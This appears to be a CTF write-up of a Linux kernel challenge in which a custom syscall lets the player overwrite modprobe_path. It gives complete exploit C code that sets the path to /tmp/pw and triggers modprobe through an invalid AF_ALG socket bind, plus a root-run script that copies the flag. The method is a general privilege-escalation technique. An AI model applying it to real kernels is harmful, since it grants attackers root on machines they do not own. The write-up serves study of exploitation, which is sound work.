

`modprobe_path` overwrite exploit after [kernel commit `fa1bdca98d74472dcdb79cb948b54f63b5886c04`](https://web.git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=fa1bdca98d74472dcdb79cb948b54f63b5886c04).
trigger modprobe using `struct sockaddr_alg`.

First ever kernel pwn!

<!--more-->

## Observation

We are given a gzipped tarball, containing usual kernel pwn stuffs (bzImage, initramfs, qemu script, docker, etc.), and a syscall_64.tbl with the following entry, hinting a custom syscall.

```
549  common  naup  sys_naup
```

First thing to do is convert the bzImage to a debuggable ELF file, with the following tools

```bash
./extract-vmlinux.sh bzImage >vmlinux
./vmlinux-to-elf/vmlinux-to-elf ./vmlinux ./vmlinux.elf
```

Open it up in ghidra, and find the implementation of the `naup` syscall



It does the following:
1. Ensure first parameter points to `modprobe_path`
2. Copy 8 bytes pointed to by the second argument.
3. Store the 8 bytes in `modprobe_path`.

So, we have a `modprobe_path` overwrite - a standard method for privilege escalation.

### modprobe_path overwrite - how it works

The modprobe_path variable stores a path to an executable that is executed with root privileges when an unknown module is loaded.

Example:
1. (PATCHED IN kernel commit [`fa1bdca98d74472dcdb79cb948b54f63b5886c04`](https://web.git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=fa1bdca98d74472dcdb79cb948b54f63b5886c04)) When you try running a file with unrecegonized magic bytes (unrecegonized file format), the modprobe program will be executed with root privileges.
2. When you pass an invalid `struct sockaddr_alg` to `bind`.

We will be using the 2nd method to pwn the kernel here.

## Exploit

Compile the exploit, and copy it over to the target system.

```c
// exploit.c
// gcc exploit.c -o exploit -fstatic
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/syscall.h>
#include <unistd.h>

#include <fcntl.h>
#include <linux/if_alg.h>
#include <string.h>
#include <sys/socket.h>

int main(int argc, char *argv[argc]) {
  long ret;
  unsigned char buf[] = "/tmp/pw\x00";

  ret = syscall(549, 0xffffffff82b45b20, &buf[0], 0x3333333333333333);

  if (ret == -1) {
    perror("syscall 549 failed");
  } else {
    printf("syscall 549 returned: %ld\n", ret);
  }

  int alg_fd = socket(AF_ALG, SOCK_SEQPACKET, 0);
  if (alg_fd < 0) {
    perror("socket(AF_ALG) failed");
    return 1;
  }

  struct sockaddr_alg sa;
  memset(&sa, 0, sizeof(sa));
  sa.salg_family = AF_ALG;
  strcpy((char *)sa.salg_type, "pwnme"); // dummy string
  bind(alg_fd, (struct sockaddr *)&sa, sizeof(sa));

  return 0;
}

// 0xffffffff82b45b20 T modprobe_path
// 0xffffffff82b45b20
// vim: sw=2
```

Execute the exploit. The `modprobe_path` will have changed to `/tmp/pw`.


Create a script `/tmp/pw` with the following contents and make it executable.

```bash
$ cat <<EOF >/tmp/pw
#!/bin/sh

cp /flag.txt /tmp/flag.txt
cp /flag /tmp/flag

chmod 777 /tmp/flag.txt
chmod 777 /tmp/flag

EOF
$ chmod 777 /tmp/pw
```

Run the exploit again to trigger the `struct sockaddr_alg` corruption, which will cause the `modprobe_path` program to be executed as root.

```bash
$ cat /tmp/flag
```


